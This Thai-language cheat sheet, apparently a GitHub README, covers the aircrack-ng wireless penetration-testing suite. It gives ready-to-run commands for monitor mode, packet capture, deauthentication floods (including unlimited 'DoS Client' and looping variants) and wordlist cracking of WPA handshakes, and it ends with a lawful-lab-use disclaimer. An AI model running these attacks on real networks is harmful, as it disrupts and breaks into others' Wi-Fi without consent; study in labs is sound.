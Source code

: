 # 🛠 Aircrack-ng Suite – Wireless Attacks Toolkit

## 🧭 สารบัญ
- [ภาพรวม](#ภาพรวม)
- [airmon-ng – เปิด/ปิด Monitor Mode](#airmon-ng--เปิดปิด-monitor-mode)
- [airodump-ng – สแกน Wi-Fi และดักจับ Packet](#airodump-ng--สแกน-wi-fi-และดักจับ-packet)
- [aireplay-ng – ยิง Packet และโจมตี](#aireplay-ng--ยิง-packet-และโจมตี)
  - [รูปแบบการยิง deauth ที่นิยม](#รูปแบบการยิง-deauth-ที่นิยม)
- [aircrack-ng – ถอดรหัส WPA Handshake](#aircrack-ng--ถอดรหัส-wpa-handshake)

---

## 📦 ภาพรวม

ชุดเครื่องมือ `aircrack-ng` คือหนึ่งในเครื่องมือหลักที่ใช้ใน **Wireless Penetration Testing** โดยเน้นการ:
- ตรวจสอบสภาพเครือข่ายไร้สาย
- สแกน Access Point และ Client
- ดักจับ Handshake
- ยิง Packet (เช่น deauth)
- Brute-force หารหัสผ่านจาก Handshake

---

## 🛰 airmon-ng – เปิด/ปิด Monitor Mode

ใช้เพื่อเปลี่ยน Wi-Fi interface ให้อยู่ใน **Monitor Mode** และจัดการ process ที่รบกวนการดักจับ packet

### 🔧 คำสั่งหลัก
```bash
sudo airmon-ng start wlan1        # เปิด Monitor Mode → wlan1mon
sudo airmon-ng stop wlan1mon      # ปิด Monitor Mode กลับสู่ Managed Mode
sudo airmon-ng check              # ตรวจสอบ process ที่รบกวน เช่น NetworkManager
sudo airmon-ng check kill         # ฆ่า process ที่รบกวนทั้งหมด
```

### 📌 หมายเหตุ
- ใช้งานสะดวกกว่าการใช้ `ip` และ `iw`
- ชื่อ interface อาจเปลี่ยน เช่น `wlan1` → `wlan1mon`

---

## 🔍 airodump-ng – สแกน Wi-Fi และดักจับ Packet

ใช้เพื่อ:
- แสดงข้อมูล Access Point และ Client
- บันทึก packet เป็นไฟล์ `.cap`
- ใช้ร่วมกับ `aircrack-ng` หรือ `hashcat` เพื่อถอดรหัส

### 🔧 คำสั่งพื้นฐาน
```bash
sudo airodump-ng wlan1mon
```

### 🔧 คำสั่งขั้นสูง (เฉพาะเจาะจง BSSID และ Channel)
```bash
sudo airodump-ng --bssid <BSSID> --channel <CH> -w capture wlan1mon
```

### 🧾 Options สำคัญ
| Option | ความหมาย |
|--------|-----------|
| `--bssid <BSSID>` | ระบุ Access Point เป้าหมาย |
| `--channel <CH>` | ระบุ channel ให้ตรงกับ AP |
| `-w <prefix>` | บันทึกข้อมูลเป็นไฟล์ capture (เช่น `.cap`) |
| `--write-interval 1` | บันทึกทุก ๆ วินาที (default 5s) |
| `--ignore-negative-one` | ปิด warning ช่องสัญญาณไม่ตรง (บาง adapter ต้องใช้) |

---

## 💥 aireplay-ng – ยิง Packet และโจมตี

ใช้เพื่อ:
- ยิง deauth packet ไล่ client ออก
- ทดลอง packet injection
- Replay authentication / ARP request ฯลฯ

### 🔧 คำสั่งยิง deauth
```bash
# ไล่ client รายตัว
sudo aireplay-ng --deauth 10 -a <BSSID> -c <Client MAC> wlan1mon

# ไล่ client ทั้งหมดใน AP
sudo aireplay-ng --deauth 10 -a <BSSID> wlan1mon
```

### 🧾 Options สำคัญ
| Option | ความหมาย |
|--------|-----------|
| `--deauth <n>` | จำนวน packet ที่จะยิง (0 = ไม่จำกัด) |
| `-a <BSSID>` | ระบุ Access Point เป้าหมาย |
| `-c <Client MAC>` | ระบุ MAC ของ client (ถ้าเจาะจง) |
| `--ignore-negative-one` | ใช้เมื่อมี error ช่องสัญญาณไม่ตรง |

### 📌 คำสั่งทดสอบว่า Adapter รองรับ injection หรือไม่
```bash
sudo aireplay-ng --test wlan1mon
```

### 🔫 รูปแบบการยิง deauth ที่นิยม

| รูปแบบ | คำอธิบาย | คำสั่ง |
|--------|----------|--------|
| 🎯 รายตัว (Targeted) | ยิงเฉพาะ client ที่ระบุ | `aireplay-ng --deauth 10 -a <BSSID> -c <Client MAC> wlan1mon` |
| 📡 ทั้งวง (Broadcast) | ไล่ client ทุกตัวใน AP | `aireplay-ng --deauth 10 -a <BSSID> wlan1mon` |
| 🔁 ไม่จำกัดรอบ | ยิงเรื่อย ๆ จนกว่าจะหยุด | `aireplay-ng --deauth 0 -a <BSSID> wlan1mon` |
| ☠️ DoS Client | ยิงไม่หยุดเฉพาะรายตัว | `aireplay-ng --deauth 0 -a <BSSID> -c <Client MAC> wlan1mon` |
| 🚀 Aggressive Loop | ยิงหลายรอบติด ๆ กัน | `for i in {1..5}; do aireplay-ng --deauth 25 -a <BSSID> wlan1mon; done` |

---

## 🔐 aircrack-ng – ถอดรหัส WPA Handshake

ใช้ถอดรหัสไฟล์ `.cap` ที่ดักจับ handshake ได้ โดยใช้ wordlist

### 🔧 คำสั่งพื้นฐาน
```bash
aircrack-ng -w wordlist.txt -b <BSSID> capture.cap
```

### 🧾 Options สำคัญ
| Option | ความหมาย |
|--------|-----------|
| `-w <wordlist>` | ไฟล์รหัสผ่านสำหรับ brute-force |
| `-b <BSSID>` | ระบุ Access Point เป้าหมาย |
| `-e <ESSID>` | ระบุชื่อ Wi-Fi (ถ้าเจอหลายอัน) |
| `-l <output>` | บันทึกรหัสผ่านที่เจอไปยังไฟล์ |

### ✅ ตรวจสอบว่า handshake มีอยู่หรือไม่
```bash
aircrack-ng capture.cap
```
ถ้ามี handshake จะมีดาว (⭐) ขึ้นตรง `WPA handshake` กับ BSSID

---

📌 **หมายเหตุ:** การใช้งานเครื่องมือเหล่านี้ควรอยู่ภายใต้กฎหมาย และใช้เพื่อการศึกษาในแล็บเท่านั้น
